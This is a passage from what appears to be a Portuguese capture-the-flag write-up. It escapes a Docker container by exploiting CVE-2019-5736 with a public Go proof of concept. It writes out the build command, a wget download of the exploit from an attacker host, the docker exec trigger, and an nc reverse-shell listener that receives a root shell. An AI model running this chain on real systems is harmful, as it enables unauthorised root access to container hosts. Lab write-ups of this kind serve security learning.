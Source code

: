 Como não encontrei nada muito relevante nos arquivos, decidi buscar por outras vulnerabilidades que permitiriam escapar do docker, onde acabei encontrando o CVE-2019-5736 enquanto navegava nas vulnerabilidades relacionadas ao produto **docker** no site [CVE Details]. Esta vulnerabilidade menciona justamente o que procuramos e dado ao seu alto score (CVSS 9.3) talvez exista algum exploit pronto.

![CVE Details - CVE-2019-5736](https://i.imgur.com/CqvPKK3.png){: .align-center}

Buscando por exploits encontrei o repositório [Frichetten/CVE-2019-5736-PoC: PoC for CVE-2019-5736 (github.com)](https://github.com/Frichetten/CVE-2019-5736-PoC) uma PoC escrita em Golang que supostamente se adequaria bem em nosso cenário, uma vez que outras PoCs existentes dependiam da execução do `docker run` como root.

Para obter o shell de root, os passos seguintes foram executados, conforme visto neste blog post ([Reproduction of docker escape vulnerability (CVE-2019-5736) - Programmer Sought](https://www.programmersought.com/article/71804432772/))

- Baixado e editado o script com o payload para execução de shell reverso, chamado `escape.go`

- Compilado utilizando os parâmetros selecionados

```plaintext
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build escape.go
```

- Copiado exploit para a máquina vítima, dentro do container, seguido da sua execução

```bash
wget http://10.10.10.10/escape
chmod +x escape
./escape
```

- Uma vez que o exploit substitui `/bin/sh` da máquina por um shell script malicioso, executado a linha de comando a seguir para iniciar o trigger para a exploração

```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

Após execução, foi recebido um shell reverso no listener que havia sido iniciado e obtido flag de root desta máquina

```bash
$ sudo nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.230] 35856
bash: cannot set terminal process group (1617): Inappropriate ioctl for device
bash: no job control in this shell
<4de4eaff90e275467ff2103ff7b6eb2b1ffaf63d44f72a2b2# id
id
uid=0(root) gid=0(root) groups=0(root)
root@thenotebook:/root# cat root.txt
\cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo voces no proximo post! :smiley:

